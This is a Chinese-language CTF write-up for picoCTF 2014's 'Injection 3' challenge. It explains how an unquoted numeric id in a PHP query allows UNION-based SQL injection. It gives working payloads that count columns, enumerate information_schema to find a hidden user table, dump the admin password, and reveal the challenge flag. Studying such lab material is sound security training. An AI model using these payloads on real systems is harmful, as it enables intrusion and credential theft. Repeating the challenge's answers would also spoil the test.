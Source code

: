 # Injection 3
Daedalus加強了防護，在php code中加入mysqli_real_escape_string讓單引號雙引號攻擊無效了。
 * 仔細看程式碼：在[lookup_user.php](http://web2014.picoctf.com/injection3/lookup_user.php)中
 1. ```$query = "SELECT * FROM ${table_prefix}users WHERE id=$id"```
  * ```$id```是數字所以並沒有被單引號保護住，這給了我們很好的機會執行其他query！
 2. 這個php會把使用者資料印出來，所以如果能使用UNION只要把column的名字對應或重新命名成password就成功了！
  * 但因為table名字被${table_prefix}保護住，我們必須先找出**table全名**
 3. UNION指令會把兩個**相同數目**的column對應聯集起來，這個特性讓我們能**猜出user table有幾個column**！
  * 試了一下，```id=0 UNION SELECT 1,2,3,4,5,6,7```猜中了，下一步要搜出這個user table的全名
 * [MySQL官網query schema的教學](http://dev.mysql.com/doc/refman/5.0/en/columns-table.html)察看怎麼顯示table名字
  * ```id=0 UNION SELECT table_name, table_name, table_name, table_name, table_name, table_name, table_name FROM information_schema.tables LIMIT 1```，成功顯示出一個table的名字。
 * 但不是我們要的，所以再加上```OFFSET = 1```，還是不對，於是寫個[script](script)從0跑到50，最後找到OFFSET = 40：
  * ```id=0 UNION SELECT table_name, table_name, table_name, table_name, table_name, table_name, table_name FROM information_schema.tables LIMIT 1 OFFSET 40```，找出全名叫：```super_secret_users```。
 * 於是可以使用UNION顯示密碼了：```id=0 UNION SELECT password, password, password, password, password, password, password FROM super_secret_users WHERE id=1```，得到密碼 = ```not_the_flag_super_secret_admin_password```
 * 最後再用這個密碼登入，成功取得```flag = flag_2tc7ZPa5PEhcyZJXgH```。
